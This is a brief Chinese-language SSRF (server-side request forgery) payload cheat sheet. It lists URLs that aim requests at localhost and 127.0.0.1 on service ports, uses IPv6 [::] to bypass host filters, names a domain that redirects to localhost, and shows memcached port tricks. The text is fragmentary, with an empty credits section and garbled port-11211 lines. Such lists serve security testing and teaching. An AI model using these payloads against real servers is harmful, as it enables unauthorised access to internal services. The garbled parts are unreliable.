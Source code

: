 # 伪造服务器端请求
服务器端请求伪造或是SSRF是一个攻击者可以迫使服务器为他执行请求的漏洞.	

## 开发

基本SSRF v1
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

基本SSRF v2
```
http://localhost:80
http://localhost:443
http://localhost:22
```

用[::]绕过主机
```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

绕过本地主机，将域名重定向到本地主机
```
http://n-pn.info
```

-> 11211
本地主机:+11211aaa
本地主机:00011211aaaa

## 致谢
* 


